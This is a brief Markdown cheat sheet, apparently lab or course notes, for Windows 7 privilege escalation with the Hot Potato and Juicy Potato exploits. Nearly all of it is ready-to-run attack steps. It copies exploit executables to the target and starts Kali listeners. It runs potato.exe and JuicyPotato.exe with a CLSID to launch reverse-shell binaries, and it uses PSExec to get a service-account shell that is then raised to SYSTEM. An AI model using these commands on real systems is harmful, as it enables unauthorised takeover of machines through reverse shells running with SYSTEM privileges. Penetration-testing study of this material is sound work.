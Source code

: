 # Hot Potata
https://github.com/foxglovesec/Potato.git
_Note: These steps are for Windows 7)_
###### 1.Copy the potato.exe exploit executable over to Windows.
###### 2.Start a listener on Kali.
###### 3.Run the exploit:
`.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
###### 4.Wait for a Windows Defender update, or trigger one manually.

# Juice Potato
https://github.com/ohpe/juicy-potato.git
_(Note: These steps are for Windows 7)_
###### 1.Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.
###### 2.Start a listener on Kali.
###### 3.Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:
`> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`
###### 4.Start another listener on Kali.
###### 5.Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:
`> C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`
###### 6.If the CLSID ({03ca...) doesn’t work for you, either check this list:
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md _or run the GetCLSID.ps1 PowerShell script._